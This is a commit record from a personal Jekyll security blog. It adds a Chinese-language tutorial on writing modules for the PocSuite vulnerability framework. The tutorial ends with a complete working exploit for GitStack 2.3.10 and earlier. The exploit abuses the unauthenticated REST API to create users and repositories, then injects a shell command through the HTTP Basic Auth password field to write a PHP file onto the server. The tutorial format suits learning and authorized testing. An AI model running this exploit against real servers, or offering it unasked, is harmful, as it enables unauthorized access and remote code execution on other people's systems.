

Before and after one commit to co0ontty/co0ontty.github.io, a Jekyll site: the page built from _posts/2019-7-16-Suricata.md, in a window 1280 px wide and 900 px high, scrolled down 3966 px. Shown: the whole window, without its empty margins (244-1035 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
pocsuite

````diff
--- a/_posts/2019-7-16-Suricata.md
+++ b/_posts/2019-7-16-Suricata.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title:  "Suricata学习笔记"
-date:   2019-9-16 16:18:43
+date:   2019-7-16 16:18:43
 categories: Development
 author: co0ontty
 categories: 安全开发 ALL
--- /dev/null
+++ b/_posts/2019-7-19-pocsuit.md
@@ -0,0 +1,179 @@
+---
+layout: post
+title:  "PocSuite编写及使用笔记"
+date:   2019-7-19 16:18:43
+categories: Development
+author: co0ontty
+categories: 安全开发 ALL
+tags: 安全开发 ALL
+describe: PocSuite编写及使用笔记
+cover: '/assets/img/posts/pocsuitecover.png'
+---
+## 关于PocSuite
+[PocSuite](http://pocsuite.org)是由知道创宇404实验室编写的一款基于python的开源漏洞利用框架。PocSuite包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
+![使用过程图](/assets/img/posts/pocsuite1.png)
+## PocSuite2
+关于PocSuite2的编写方法及使用过程中的注意事项
+### PocSuite2编写格式
+PocSuite检测模块的构成主要由以下几部分构成：
+·python库的引用模块
+·关于poc的介绍信息模块
+·漏洞检测代码模块
+·漏洞利用代码模块
+·返回结果模块
+### python库引用模块
+```python
+from pocsuite.api.poc import register
+from pocsuite.api.poc import Output, POCBase
+import requests
+import random
+import os
+import sys
+import hashlib
+import string
+from requests.auth import HTTPBasicAuth
+```
+在该模块声明漏洞检测及利用过程中需要使用到的python库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库
+
+### 关于poc的介绍信息模块
+```python
+    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
+    version = '1.0' #该poc的版本
+    author = 'co0ontty' #编写作者
+    vulDate = '2019-7-11' #漏洞时间
+    createDate = '2019-7-16' #创建poc的时间
+    updateDate = '2019-7-16' #更新时间
+    references = ['https://xz.aliyun.com/t/2235'] #关于该漏洞的参考信息网站
+    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
+    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
+    appName = 'GitStack' #存在漏洞的服务的名称
+    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
+    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
+    desc = '''
+    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
+    ''' # 漏洞的介绍信息
+    samples = []
+    install_requires = []
+```
+### 漏洞检测代码模块
+```python
+def _verify(self):
+        result = {}
+        target = self.url
+        #your verify code
+        if 判断条件:
+            result['VerifyInfo'] = {} # 标识为成功
+            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
+            pass
+        return self.parse_output(result) # 返回结果
+```
+系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回success，如果不存在则判断为faild
+### 漏洞利用代码模块
+
+```python
+def _attack(self):
+    # attack code
+```
+一般情况下会设置检测代码与漏洞利用代码相同：
+```python
+_attack = _verify
+```
+### 返回结果模块
+
+```python
+def parse_output(self, result):
+        output = Output(self)
+        if result:
+            output.success(result)
+        else:
+            output.fail('Internet nothing returned')
+        return output
+```
+将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示
+
+### 完整代码分享
+GitStack任意文件上传漏洞
+```python
+#!/usr/bin/python
+# -*- coding: utf-8 -*-
+# from pocsuite.api.request import req
+from pocsuite.api.poc import register
+from pocsuite.api.poc import Output, POCBase
+import requests
+import random
+import os
+import sys
+import hashlib
+import string
+from requests.auth import HTTPBasicAuth
+
+
+class TestPOC(POCBase):
+    vulID = 'N/A'
+    version = 'GitStack <= 2.3.10'
+    author = 'co0ontty'
+    vulDate = '2019-7-11'
+    createDate = '2019-7-16'
+    updateDate = '2018-3-31'
+    references = ['https://xz.aliyun.com/t/2235']
+    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
+    appPowerLink = 'https://gitstack.com'
+    appName = 'GitStack'
+    appVersion = 'GitStack <= 2.3.10'
+    vulType = '文件上传'
+    desc = '''
+    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
+    '''
+    samples = []
+    install_requires = []
+
+    def _verify(self):
+        result = {}
+        target = self.url
+        repository = 'rce'
+        username = 'rce'
+        password = 'rce'
+        csrf_token = 'token'
+        user_list = []
+        r = requests.get("{}/rest/user/".format(target))
+        try:
+            user_list = r.json()
+            user_list.remove('everyone')
+        except:
+            pass
+        if len(user_list) > 0:
+            username = user_list[0]
+        else:
+            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
+        r = requests.get("{}/rest/repository/".format(target))
+        repository_list = r.json()
+        if len(repository_list) > 0:
+            repository = repository_list[0]['name']
+        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
+        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
+        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
+        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
+        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
+        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
+        test_url = target+"/web/"+random_file_name
+        r = requests.get(test_url)
+        if (r.status_code == 200)&(random_identify_code in r.text):
+            result['VerifyInfo'] = {}
+            result['VerifyInfo']['URL'] = self.url
+            pass
+        return self.parse_output(result)
+
+    _attack = _verify
+
+    def parse_output(self, result):
+        output = Output(self)
+        if result:
+            output.success(result)
+        else:
+            output.fail('Internet nothing returned')
+        return output
+
+
+register(TestPOC)
+
+```
````
Also changed, not shown: assets/img/posts/pocsuite1.png (added), assets/img/posts/pocsuitecover.png (added), 13 other files.
